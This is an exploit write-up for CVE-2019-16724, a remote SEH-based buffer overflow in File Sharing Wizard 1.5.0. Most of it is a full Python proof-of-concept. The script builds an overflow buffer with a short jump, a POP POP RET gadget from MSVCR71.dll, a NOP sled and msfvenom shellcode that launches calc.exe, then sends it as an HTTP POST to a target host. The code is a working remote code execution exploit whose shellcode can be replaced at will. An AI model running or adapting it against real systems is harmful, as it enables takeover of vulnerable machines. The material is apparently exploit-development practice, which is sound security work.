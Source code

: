 ## File sharing wizard SEH overflow writeup

# Exploit Title: File sharing wizard remote SEH overflow
# Date: 9/23/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.sharing-file.com
# Software Link: https://file-sharing-wizard.soft112.com/
# Version: 1.5.0	
# Tested on: Windows 7
# CVE : CVE-2019-16724

```
[Attack Vectors]
When sending a remote HTTP POST request to the web-servers
application, an attacker can obtain arbitrary code execution by
sending to much data and exploiting a SEH based buffer overflow.
```

Exploit-db page: 

Assigned CVE ID : CVE-2019-16724


### Popping calculator:

![proof](https://raw.githubusercontent.com/nu11pwned/Windows-Exploit-Development-practice/master/CVE-writeups/CVE-2019-16724/proof-calc.png?token=ANBXOJYWDV3252FSZYUNWWK5RFUSQ)

----
### Proof of concept exploit: 
```python

import socket
from struct import *

# File-sharing-wizard-seh

#----------------------------------------------#
#	Bad characters: \x00		       #
#	SEH value:  0x909032EB  (JMP short)    #
#	NSEH value: 0x7c38a67f	(POP POP RET)  #
#----------------------------------------------#

#  Assigned CVE ID : CVE-2019-16724


victim_host = "10.0.0.17"
victim_port = 80

# msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f python -v shellcode EXITFUNC=seh
shellcode =  ""
shellcode += "\xd9\xc7\xd9\x74\x24\xf4\xba\x65\x1d\x84\xe1\x5f"
shellcode += "\x29\xc9\xb1\x31\x31\x57\x18\x03\x57\x18\x83\xef"
shellcode += "\x99\xff\x71\x1d\x89\x82\x7a\xde\x49\xe3\xf3\x3b"
shellcode += "\x78\x23\x67\x4f\x2a\x93\xe3\x1d\xc6\x58\xa1\xb5"
shellcode += "\x5d\x2c\x6e\xb9\xd6\x9b\x48\xf4\xe7\xb0\xa9\x97"
shellcode += "\x6b\xcb\xfd\x77\x52\x04\xf0\x76\x93\x79\xf9\x2b"
shellcode += "\x4c\xf5\xac\xdb\xf9\x43\x6d\x57\xb1\x42\xf5\x84"
shellcode += "\x01\x64\xd4\x1a\x1a\x3f\xf6\x9d\xcf\x4b\xbf\x85"
shellcode += "\x0c\x71\x09\x3d\xe6\x0d\x88\x97\x37\xed\x27\xd6"
shellcode += "\xf8\x1c\x39\x1e\x3e\xff\x4c\x56\x3d\x82\x56\xad"
shellcode += "\x3c\x58\xd2\x36\xe6\x2b\x44\x93\x17\xff\x13\x50"
shellcode += "\x1b\xb4\x50\x3e\x3f\x4b\xb4\x34\x3b\xc0\x3b\x9b"
shellcode += "\xca\x92\x1f\x3f\x97\x41\x01\x66\x7d\x27\x3e\x78"
shellcode += "\xde\x98\x9a\xf2\xf2\xcd\x96\x58\x98\x10\x24\xe7"
shellcode += "\xee\x13\x36\xe8\x5e\x7c\x07\x63\x31\xfb\x98\xa6"
shellcode += "\x76\xfd\x69\x7b\x62\x6a\xd0\xee\xcf\xf6\xe3\xc4"
shellcode += "\x13\x0f\x60\xed\xeb\xf4\x78\x84\xee\xb1\x3e\x74"
shellcode += "\x82\xaa\xaa\x7a\x31\xca\xfe\x18\xd4\x58\x62\xf1"
shellcode += "\x73\xd9\x01\x0d"

nseh = pack ('<I',0x909032EB) # Short jump forward 32 places into NOP sled
seh = pack('I',0x7c38a67f)	# POP POP RET 

# 0x7c38a67f : pop ecx # pop ecx # ret  |  {PAGE_EXECUTE_READ} [MSVCR71.dll] 
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v7.10.6030.0 (C:\Program Files (x86)\File Sharing Wizard\bin\MSVCR71.dll)

exploit_payload  = "A" * 1040
exploit_payload += nseh # JMP short
exploit_payload += seh # POPPOPRET 
exploit_payload += "\x90" * 100 # NOPSLED
exploit_payload += shellcode # popping calc.exe
exploit_payload += "D" *(5000 - len(exploit_payload))

payload_header  = "POST " + exploit_payload
payload_header +=" HTTP/1.0\r\n\r\n"

# overflowed SEH handler - 42386942 : [*] Exact match at offset 1044

try:
	print("""
	--------------------------------
	CVE-2019-16724 proof of concept
	File sharing wizard SEH overflow
	--------------------------------
	""")
	expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	print("[x] Setting up a socket connection")
	expl.connect((victim_host, victim_port))
	print("[x] Establishing a connection to the victim")
	expl.send(payload_header)
	print("[x] Sending ")
except:
	print("[!] Error establishing a connection")
	print("[!] Error sending exploit")

  ```
